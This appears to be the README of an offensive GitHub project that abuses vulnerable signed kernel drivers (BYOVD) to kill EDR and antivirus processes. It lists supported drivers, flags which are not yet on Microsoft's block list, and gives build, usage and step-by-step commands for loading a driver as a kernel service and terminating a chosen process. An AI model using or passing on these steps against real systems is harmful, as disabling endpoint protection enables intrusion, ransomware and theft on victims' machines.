 # RustyDrivers
This project is a BYOVD collection with the focus on killing EDR / AV processes.

Currently the following drivers are supported:
| **Driver**       | **Argument Name** | **Blocked** |
|------------------|-------------------|-------------|
| Process Explorer | process_explorer  | Yes         |
| Genshin Impact   | genshin           | Yes         |
| Rentdrv2         | rentdrv2          | No          |
| TrueSight        | truesight         | No          |

Blocked means that the driver is in the [block list](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/windows-defender-application-control/design/microsoft-recommended-driver-block-rules#vulnerable-driver-blocklist-xml) of Microsoft and cannot be executed on an up to date Windows.

# Build
```
cargo build --release
```

# Usage
```
rusty_drivers.exe --help            
Usage: rusty_drivers.exe --pid <PID> --driver <DRIVER>

Options:
  -p, --pid <PID>
  -d, --driver <DRIVER>
  -h, --help             Print help
  -V, --version          Print version
```

# Example
Since the executable does not register a server to exploit the driver, this needs to be done manually:
```
sc create Test123 binpath= c:\test\<DRIVER>.sys type= kernel start= auto
```
Afterwards the service can be started:
```
sc start Test123
```
Finally, to shut down the process with the PID of 1234 using the Process Explorer driver the following command can be used:
```
rusty_drivers.exe --pid 1234 --driver process_explorer          
```
Do not forget to cleanup the service afterwards:
```
sc stop Test123
sc delete Test123
```
